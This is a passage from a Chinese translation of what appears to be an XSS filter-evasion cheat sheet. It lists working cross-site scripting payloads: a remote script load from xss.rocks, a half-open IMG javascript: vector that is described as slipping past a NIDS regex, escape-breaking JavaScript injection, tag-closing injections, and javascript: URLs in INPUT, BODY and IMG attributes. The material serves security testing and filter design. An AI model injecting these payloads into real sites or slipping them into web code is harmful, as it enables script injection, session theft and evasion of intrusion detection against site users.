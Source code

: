 ```html
<SCRIPT SRC=//xss.rocks/.j>
```

（由 Łukasz Pilorz 提交）

### 半开放 HTML/JavaScript XSS 向量

与 Firefox 不同，IE 渲染引擎（Trident）不会向页面添加额外数据，但它确实允许在图像中使用 `javascript:` 指令。这作为一个向量很有用，因为它不需要闭合尖括号。这假设在你注入这个 XSS 向量的位置下方有任何 HTML 标签。即使没有闭合的 `\>` 标签，下面的标签也会将其关闭。注意：这会破坏 HTML，取决于下方的 HTML。它绕过了以下网络入侵检测系统（NIDS）正则表达式：`/((\\%3D)|(=))\[^\\n\]\*((\\%3C)|\<)\[^\\n\]+((\\%3E)|\>)/`，因为它不需要结束的 `\>`。顺便说一句，这对使用开放式 `<IFRAME` 标签而不是 `<IMG` 标签的真实世界 XSS 过滤器也很有效。

```html
<IMG SRC="`<javascript:alert>`('XSS')"
```

### 转义 JavaScript 转义

如果一个应用程序被编写为在 JavaScript 中输出一些用户信息（如下所示：`<SCRIPT>var a="$ENV{QUERY\_STRING}";</SCRIPT>`），并且你想在其中注入自己的 JavaScript，但服务器端应用程序转义了某些引号，你可以通过转义它们的转义字符来规避这一点。当这被注入时，它将读取 `<SCRIPT>var a="\\\\";alert('XSS');//";</SCRIPT>`，最终取消转义双引号并触发 XSS 向量。XSS 定位器使用这种方法：

```js
\";alert('XSS');//
```

另一种方法，如果已正确应用了 JSON 或 JavaScript 转义，但没有 HTML 编码，是结束脚本块并启动自己的脚本块：

```js
</script><script>alert('XSS');</script>
```

### 结束标题标签

这是一个简单的 XSS 向量，关闭 `<TITLE>` 标签，可以封装恶意的跨站点脚本攻击：

```html
</TITLE><SCRIPT>alert("XSS");</SCRIPT>
```

#### INPUT 图像

```html
<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">
```

#### BODY 图像

```html
<BODY BACKGROUND="javascript:alert('XSS')">
```

#### IMG Dynsrc

```html
<IMG DYNSRC="javascript:alert('XSS')">
```

#### IMG Lowsrc

```html
<IMG LOWSRC="javascript:alert('XSS')">
```
